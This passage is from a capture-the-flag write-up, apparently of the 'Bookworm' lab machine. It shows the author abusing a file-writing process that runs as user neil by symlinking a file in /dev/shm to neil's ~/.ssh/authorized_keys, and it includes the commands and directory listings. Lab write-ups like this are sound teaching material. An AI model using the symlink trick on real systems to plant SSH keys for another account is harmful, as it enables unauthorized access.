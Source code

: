 It's failed to created authorized_keys with a `404 Not Found` response .
If we change the path to /tmp/test , we do see that neil is creating files in the directory that we specify

![](/images/bookworm/2024-01-25-10-45-39.png)

```
frank@bookworm:~$ ls /tmp
authorized_keys.txt                                                           systemd-private-a734598c94884452a8891be6212edbca-systemd-logind.service-9l7DUf
Crashpad                                                                      systemd-private-a734598c94884452a8891be6212edbca-systemd-resolved.service-2DL51g
puppeteer_dev_chrome_profile-jc4KKv                                           systemd-private-a734598c94884452a8891be6212edbca-systemd-timesyncd.service-gmrFPh
runtime-neil                                                                  systemd-private-a734598c94884452a8891be6212edbca-upower.service-NddGQf
snap-private-tmp                                                              vmware-root_731-4248811549
systemd-private-a734598c94884452a8891be6212edbca-ModemManager.service-mSUb0e
```
The file has been uploaded in `/tmp` directory so now we'll run ln command to create a symbolic link (symlink) to an existing or directory

```
frank@bookworm:/dev/shm$ ln -s /home/neil/.ssh/authorized_keys pwn.txt
```



```
frank@bookworm:/dev/shm$ ls -la
total 4
drwxrwxrwt  2 root  root    80 Jan 25 03:08 .
drwxr-xr-x 18 root  root  3960 Jan 24 05:03 ..
-rw-r--r--  1 neil  neil   100 Jan 25 03:05 authorized_keys.txt
lrwxrwxrwx  1 frank frank   31 Jan 25 03:08 pwn.txt -> /home/neil/.ssh/authorized_keys
```
